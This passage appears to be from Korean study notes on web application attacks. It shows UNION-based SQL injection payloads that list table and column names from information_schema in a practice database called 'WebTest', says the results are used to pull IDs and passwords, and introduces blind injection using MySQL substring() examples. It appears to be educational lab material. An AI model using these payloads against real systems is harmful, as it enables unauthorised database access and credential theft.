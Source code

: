 ```

위의 결과를 출력
테이블 명 에서 사용한걸 이용
' union select 1,2,3,4,TABLE_NAME,6,7,8,9,10,TABLE_SCHEMA from information_schema.tables where TABLE_SCHEMA='WebTest' #

' union select  1,2,3,4,TABLE_NAME,6,7,8,9,10,COLUMN_NAME
```

<br>

data 확인

위에서 알아낸 테이블과 컬럼명을 기반으로 아이디와 패스워드를 조회하는 SQL 문을 사용 

<br>

<br>

<br>

##### blind injection

![2022-10-26-110블라인드](../images/2022-10-26-애플리케이션 공격 유형/2022-10-26-110블라인드.jpg)

<br>

substring()

```
mysql> select substring('test01',1,1);
+-------------------------+
| substring('test01',1,1) |
+-------------------------+
| t                       |
+-------------------------+
1 row in set (0.00 sec)

mysql> select substring('test01',2,1);
+-------------------------+
| substring('test01',2,1) |
+-------------------------+
| e                       |
+-------------------------+
1 row in set (0.00 sec)

mysql> select substring('test01',2,2);
+-------------------------+
| substring('test01',2,2) |
+-------------------------+
| es                      |
+-------------------------+
1 row in set (0.00 sec)
```

